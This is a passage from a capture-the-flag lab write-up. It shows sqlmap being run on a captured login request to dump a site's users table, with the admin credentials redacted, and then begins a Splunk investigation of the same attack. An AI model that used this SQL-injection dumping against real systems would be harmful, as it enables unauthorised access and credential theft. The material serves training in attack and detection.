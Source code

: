 ```javascript
        alert(data.error);
      } else {
        // Redirect to the dashboard or the admin page based on the role
        window.location.href = data.role == 'admin' ? 'dashboard.php' : 'dashboard.php';
      }
    })
    .catch((error) => {
      console.error('Error:', error);
    });
  }
```

The script will post our credentials, and than perform a check, if the role associated with that identity is admin we get redirected to the admin page, otherwise at the dashboard. <br>
I captured the request by sending some random strings as credentials to see it, and there is an API call, maybe is retrieving data from the MySQL database found with nmap, and we can access it or dump some information.

I decided to use *sqlmap* for the job, so let's first save the captured request of the login into a text file, than run sqlmap to try to dump the database:
```bash
sqlmap --dump -r captured_request.txt
```

Wait a little bit and it will successfully dump the table containing the username and password for the admin login: 
```
Database: hackme
Table: users
[1 entry]
+----+------------------+------------+--------+----------+--------------+----------+
| id | email            | name       | role   | status   | password     | username |
+----+------------------+------------+--------+----------+--------------+----------+
| 1  | admin@hackme.thm | Admin User | admin  | 1        | REDACTED     | REDACTED |
+----+------------------+------------+--------+----------+--------------+----------+
```

Once we have it, log-in, select the sign-up function in the selection form and click on "set options", now we have re activated the feature, we can visit the main website to receive the final flag:
--> REDACTED

<br/>
<br/>

## Splunk Investigation
Now is time to investigate the events that caused the exploitation of the website and answer the questions.

Visit the page and log in with admin:splunklab
```
http://MACHINE_IP:8000/
```

Once inside, select "search and reporting" on the left panel, then select "all-time" on the right side of the search bar to display all the logs, finally we have to chose the logs to view with `index=main`
